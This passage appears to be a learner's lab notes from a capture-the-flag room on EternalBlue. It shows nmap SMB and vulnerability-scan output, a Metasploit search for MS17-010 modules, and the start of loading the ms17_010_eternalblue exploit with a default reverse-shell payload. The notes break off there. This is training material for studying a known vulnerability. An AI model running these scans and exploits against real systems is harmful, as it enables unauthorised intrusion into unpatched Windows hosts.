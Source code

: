 |_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-29T22:55:54
|_  start_date: 2022-01-29T22:52:40

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.69 seconds

#this is the scan to look for vulnerabilities 
(kali㉿kali)-[~/THM/practice/kenobi]
└─$ nmap -sV --script vuln <ip>
--> using the hint in the room I googled shadowbrokers + smbv1 and found the article:
https://isc.sans.edu/forums/diary/ETERNALBLUE+Windows+SMBv1+Exploit+Patched/22304/
--> exploit is called ETERNALBLUE (name of room) and was patched with MS17-010






--> I then started up msfconsole, and executed:
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

--> next I 'used' the exploit by executing the following:
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
